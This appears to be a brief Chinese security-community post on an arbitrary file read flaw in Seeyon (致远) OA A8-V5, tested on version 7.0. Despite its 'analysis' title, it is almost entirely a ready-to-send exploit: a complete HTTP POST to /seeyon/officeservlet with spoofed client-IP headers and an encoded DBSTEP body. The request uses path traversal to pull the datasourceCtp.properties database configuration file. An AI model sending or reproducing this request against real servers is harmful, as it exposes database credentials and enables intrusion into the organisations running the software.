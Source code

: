 

# 致远 OA A8-V5 任意文件读取漏洞分析 - 先知社区

致远 OA A8-V5 任意文件读取漏洞分析

- - -

### 致远 OA A8-V5 任意文件读取漏洞分析

#### 漏洞环境

致远 A8 V7.0

#### 漏洞利用

读取`./../../base/conf/datasourceCtp.properties`路径下的数据库配置文件

```plain
POST /seeyon/officeservlet HTTP/1.1
Host: 10.0.103.21
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=98FCAEBB95CCBEB2C7209BEF7EAA7B3E; loginPageURL=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 350

DBSTEP V3.0     285             0               0              
RECORDID=wLoi
CREATEDATE=wLehP4whzUoiw=66
originalFileId=wLoi
needReadFile=yRWZdAS6
originalCreateDate=wLehP4whzUoiw=66
OPTION=LKDxOWOWLlxwVlOW
TEMPLATE=qf85qf85qfDfeazQqAzvcRevy1W3eazvNaMUySz3d7TsdRDsyaM3nYli
COMMAND=BSTLOlMSOCQwOV66
affairMemberId=wLoi
affairMemberName=wLoi
```
